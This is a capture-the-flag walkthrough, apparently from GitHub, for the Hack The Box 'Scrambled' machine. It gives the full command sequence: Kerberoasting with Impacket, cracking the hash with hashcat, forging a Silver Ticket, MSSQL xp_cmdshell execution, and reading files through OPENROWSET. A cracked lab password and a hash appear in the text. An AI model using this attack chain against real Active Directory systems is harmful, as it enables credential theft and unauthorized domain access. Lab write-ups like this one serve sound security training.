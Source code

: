 # [Scrambled](https://app.hackthebox.com/machines/scrambled)


```bash
nmap -p- --min-rate 10000 10.10.11.168 -Pn
```

![Alt text](img/image.png)


After knowing open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,80,88,135,139,389,445,464,593,636,1433,3268,3269,4411,5985,9389 10.10.11.168
```
![Alt text](img/image-2.png)


I found a such interesting thing on web application.

![Alt text](img/image-1.png)


It means, we can see SMB share via username and password (both of them).

I got possible username and password from this screenshot.

![Alt text](img/image-3.png)


I added 'dc1.scrm.local' and 'scrm.local' into **'/etc/hosts'** file.


Let's try to connect SMB share via `smbclient.py` script of 'Impacket' module.

```bash
python3 /usr/share/doc/python3-impacket/examples/smbclient.py -k scrm.local/ksimpson:ksimpson@dc1.scrm.local -dc-ip dc1.scrm.local
```

![Alt text](img/image-4.png)


I just have access only to 'Public' share.

![Alt text](img/image-5.png)


I read this PDF.

![Alt text](img/image-6.png)


Let's try **Kerberoasting** via this user, for this I will use `GetUserSPNs.py` script of '**Impacket**' module.

```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py scrm.local/ksimpson:ksimpson -dc-ip dc1.scrm.local -request   
```

It doesn't work, I need to add `-k` option which means use Kerberos authentication.

```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py scrm.local/ksimpson:ksimpson -dc-ip dc1.scrm.local -request -k   
```

It doesn't work, I need to add `-dc-host` option due SMB problem.

```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py scrm.local/ksimpson:ksimpson -dc-host dc1.scrm.local -request -k 
```

![Alt text](img/image-7.png)


Finally, it worked, let's crack this hash via `hashcat`.

```bash
hashcat -m 13100 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![Alt text](img/image-8.png)


scrm.local/sqlsvc: Pegasus60


I tried this credentials to login, but it doesn't work. That's why I need to create ticket for this MSSQL service.


This attack called **'Silver Ticket Attack'**.

To create a Silver Ticket, an attacker needs:
The NTLM hash of the password for the service account;
The SID of the domain
The service principle name (SPN) associated with the account.


SPN=>MSSQLSvc/dc1.scrm.local:1433


To get NTLM hash of clear-text password, I need to do below command.

```bash
iconv -f ASCII -t UTF-16LE <(printf "Pegasus60") | openssl dgst -md4
```

![Alt text](img/image-9.png)


NTLM Hash=> b999a16500b87d17ec7f2e2a68778f05



To get SID of Domain, I will use `getPac.py` script of '**Impacket**' module.

```bash
python3 /usr/share/doc/python3-impacket/examples/getPac.py -targetUser administrator scrm.local/ksimpson:ksimpson
```

![Alt text](img/image-10.png)


SID of domain=> S-1-5-21-2743207045-1827831105-2542523200


Now, as we have all values, let's create Silver ticket via `ticketer.py` script of '**Impacket**' module.

```bash
python3 /usr/share/doc/python3-impacket/examples/ticketer.py -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -dc-ip dc1.scrm.local -spn MSSQLSvc/dc1.scrm.local:1433 administrator
```

![Alt text](img/image-11.png)


As we created our silver ticket (administrator.ccache), we can login into MSSQL.


I need to add this ticket (administrator.ccache) via `klist` command.
```bash
KRB5CCNAME=administrator.ccache klist
```

![Alt text](img/image-12.png)

Again, I will use `mssqlclient.py` script of '**Impacket**' module by using ticket which we created.

```bash
KRB5CCNAME=administrator.ccache python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -k dc1.scrm.local
```

![Alt text](img/image-13.png)


I tried command execution via commands `enable_xp_cmdshell` to enable command execution.

Then, I run commands via `xp_cmdshell {command}`.

![Alt text](img/image-14.png)


I looked at privileges via `whoami /priv` command.

![Alt text](img/image-15.png)


One key point is that MSSQL has a vulnerability about reading all files on machine, it means without looking at privilege of user, MSSQL shell can read any document.

It doesn't matter due to version of MSSQL.

Our target is like that we learn via `select @@version;` query.


I get a tip from this [blog](https://www.mssqltips.com/sqlservertip/1643/using-openrowset-to-read-large-files-into-sql-server/).

![Alt text](img/image-16.png)


user.txt and root.txt

```bash
SELECT BulkColumn FROM OPENROWSET(BULK 'C:\users\administrator\desktop\root.txt', SINGLE_CLOB) MyFile

SELECT BulkColumn FROM OPENROWSET(BULK 'c:\users\miscsvc\desktop\user.txt', SINGLE_CLOB) MyFile
```

![Alt text](img/image-17.png)